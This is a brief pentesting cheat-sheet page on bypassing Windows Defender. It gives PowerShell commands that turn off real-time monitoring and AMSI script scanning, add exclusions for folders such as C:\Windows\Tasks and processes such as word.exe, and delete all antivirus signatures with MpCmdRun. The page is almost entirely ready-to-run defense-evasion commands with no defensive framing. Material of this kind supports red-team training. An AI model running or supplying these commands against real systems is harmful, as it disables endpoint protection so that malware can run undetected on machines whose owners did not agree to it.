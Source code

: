 ```yaml
---
description: Byapss Windows Defender Antivirus
---
```


# 🟢 Windows Defender Antivirus

### Check status of Defender

```
PS C:\> Get-MpComputerStatus
```

### Disable scanning all downloaded files and attachments, disable AMSI (reactive)

```
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
```

### Disable AMSI (set to 0 to enable)

```
PS C:\> Set-MpPreference -DisableScriptScanning 1
```

### Exclude a folder

```
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
```

### Remove signatures

{% hint style="info" %}
if the Internet connection is present, they will be downloaded again
{% endhint %}

{% code overflow="wrap" %}
```
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
{% endcode %}
